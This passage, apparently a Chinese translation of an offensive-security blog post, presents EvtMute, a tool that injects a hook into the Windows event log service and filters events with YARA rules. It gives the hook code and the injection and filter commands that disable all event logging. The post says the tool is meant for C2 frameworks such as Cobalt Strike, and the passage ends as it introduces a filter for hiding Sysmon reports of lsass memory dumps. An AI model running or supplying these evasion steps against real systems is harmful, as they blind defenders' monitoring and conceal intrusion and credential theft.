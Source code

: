 ```

YRRulesScanMem(yrRules, (uint8_t*)StringBuffer, strlen(StringBuffer), 0, ToReportOrNotToReportThatIsTheQuestion, &amp;dwReport, 0);

if (dwReport == 0)
`{`
    if (strstr(StringBuffer, PIPE_NAME) == NULL)
    `{`
        DoOriginalEtwCallback(EventRecord);
    `}`
`}`
```



## 日志去哪了?

您可以从`https://github.com/bats3c/EvtMute/releases/tag/v1.0`获取最新版本的EvtMute。EvtMuteHook.dll包含这个日志过滤工具的核心功能，一旦它被注入，它将作为一个临时过滤器，它在最初会允许所有的事件日志的上报，不过这个过滤器可以根据使用者的需要动态更新，而不需要重新注入。

我已经打包了一个c#程序集SharpEvtMute.exe，它可以在shad0w或cobalt strike中使用。我还将用C语言编写出一个版本，以让它能够更隐蔽的运行。

### <a class="reference-link" name="%E7%A6%81%E7%94%A8%E6%97%A5%E5%BF%97%E8%AE%B0%E5%BD%95"></a>禁用日志记录

一个简单的例子是在系统范围内禁用事件日志记录。为此，我们可以使用以下yara规则。

```
rule disable `{` condition: true `}`
```

我们首先需要将钩子注入到事件服务中。

```
.\SharpEvtMute.exe --Inject
```

[![](https://p4.ssl.qhimg.com/t01249b860a8ee06420.png)](https://p4.ssl.qhimg.com/t01249b860a8ee06420.png)

现在钩子已经放置好了，我们可以添加过滤器了。

```
.\SharpEvtMute.exe --Filter "rule disable `{` condition: true `}`"
```

[![](https://p1.ssl.qhimg.com/t011053ad44164be6e9.png)](https://p1.ssl.qhimg.com/t011053ad44164be6e9.png)

现在，所有的事件都不会被记录。

### <a class="reference-link" name="%E6%9B%B4%E5%8A%A0%E5%A4%8D%E6%9D%82%E7%9A%84%E8%BF%87%E6%BB%A4"></a>更加复杂的过滤

过滤器可以动态地改变参数，而不需要重新注入。

下面显示了一个更复杂的过滤器示例。它能够阻止sysmon报告lsass内存转储相关的事件。
